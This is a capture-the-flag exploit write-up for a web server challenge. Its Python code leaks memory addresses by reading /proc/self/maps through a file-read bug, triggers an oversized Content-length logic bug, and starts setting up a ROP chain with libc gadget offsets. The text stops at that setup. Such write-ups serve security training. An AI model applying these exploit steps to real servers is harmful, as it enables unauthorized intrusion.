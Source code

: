  

**Leaky leaky leaky**

The first step of the exploit is to leak the base addresses of the interesting segments within process virtual address space.

We can do this by exploiting the `arbitrary file read` vulnerability as explained previously : 

```py
send_http_get("//proc/self/maps", {"Connection": "keep-alive" }) # Set keep-alive to continue handling the next requests
r.recvuntil(b"\r\n\r\n")

leaks = r.recvuntil(b'stack]').splitlines()[1:]

code_base = int(leaks[0].split(b'-')[0], 16)

for i,l in enumerate(leaks):
    if b"libc" in l and libc_base == 0:
        libc_base = int(l.split(b'-')[0], 16)
        thread_stack = int(leaks[i-1].split(b' ')[0].split(b'-')[1], 16)
    if b"heap" in l:
        thread_heap = int(leaks[i+1].split(b'-')[0], 16)
```

  

**Bad size**

Next we have to trigger the logic bug by sending the following request

```py
send_http_get("/flag",
    {
        "Content-length": 0xffffffff,
        "Connection": "keep-alive",
        "Transfer-Encoding": "chunked"
    }
)
```



**ROP it !**

Next we have to craft our payload to bypass the canary and make the `post` function return into our ROP chain.



Lets first define useful variables : 

```py
pop_rdi = libc_base + 0x0000000000023796 # pop rdi ; ret
pop_rsi = libc_base + 0x000000000002590f # pop rsi ; ret
pop_rdx = libc_base + 0x00000000000c8acd # pop rdx ; ret

FILE_FD_OFFSET = 0xb60
FS_BASE_OFFSET = 0x3900

headers_len = len(make_http_header("POST", "/flag", {"Connection": "close"}))
remaining_offset = 0x1000 - headers_len
```
